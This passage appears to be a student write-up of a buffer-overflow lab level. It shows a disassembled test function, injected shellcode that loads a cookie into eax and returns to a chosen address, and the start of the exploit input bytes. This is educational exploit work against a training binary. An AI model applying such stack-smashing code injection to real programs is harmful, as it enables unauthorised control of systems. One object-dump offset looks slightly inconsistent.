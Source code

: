  8048eab:	83 ec 28             	sub    $0x28,%esp
 8048eae:	e8 db ff ff ff       	call   8048e8e <uniqueval>
 8048eb3:	89 45 f0             	mov    %eax,-0x10(%ebp)
 8048eb6:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048eb9:	89 04 24             	mov    %eax,(%esp)
 8048ebc:	e8 eb fe ff ff       	call   8048dac <getbuf>
 8048ec1:	e8 c8 ff ff ff       	call   8048e8e <uniqueval>
 8048ec6:	8b 55 f0             	mov    -0x10(%ebp),%edx
 8048ec9:	39 d0                	cmp    %edx,%eax
 8048ecb:	74 0e                	je     8048edb <test+0x33>
 8048ecd:	c7 04 24 3c a2 04 08 	movl   $0x804a23c,(%esp)
 8048ed4:	e8 b7 f9 ff ff       	call   8048890 <puts@plt>
 8048ed9:	eb 49                	jmp    8048f24 <test+0x7c>
 8048edb:	8b 45 f4             	mov    -0xc(%ebp),%eax
 8048ede:	3b 05 28 d1 04 08    	cmp    0x804d128,%eax
 8048ee4:	75 26                	jne    8048f0c <test+0x64>
 8048ee6:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048eea:	c7 44 24 04 b4 a3 04 	movl   $0x804a3b4,0x4(%esp)
 8048ef1:	08 
 8048ef2:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048ef9:	e8 62 fa ff ff       	call   8048960 <__printf_chk@plt>
 8048efe:	c7 04 24 03 00 00 00 	movl   $0x3,(%esp)
 8048f05:	e8 da 03 00 00       	call   80492e4 <validate>
 8048f0a:	eb 18                	jmp    8048f24 <test+0x7c>
 8048f0c:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048f10:	c7 44 24 04 d1 a3 04 	movl   $0x804a3d1,0x4(%esp)
 8048f17:	08 
 8048f18:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048f1f:	e8 3c fa ff ff       	call   8048960 <__printf_chk@plt>
 8048f24:	c9                   	leave  
 8048f25:	c3                   	ret   
 ```
This level, we go back to <test\> function and call <validate\> at address 0x8048f05, then quit the program normally. So, first, we have to check compare instruction in <test\> to modify our memory. In address 0x8048ede, register eax value is compared with cookie so we move our cookie to eax. Then we can pass the jne instruction, call validate, go leave and return.
So make assembly code like below.
```
./level3/dyn.s
movl $0x79caf7f0, %eax
pushl $0x08048ede
ret
 ```
disassembled file below.
```
./level3/dyn.o
dyn.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b8 f0 f7 ca 79       	mov    $0x79caf7f0,%eax
   a:	68 de 8e 04 08       	push   $0x8048ede
   f:	c3                   	ret    
```
so our text file is
```
30 31 32 33
34 35 36 37
38 39 40 41
42 43 44 45
46 47 48 49
50 51 52 53
54 55 56 57
58 59 60 61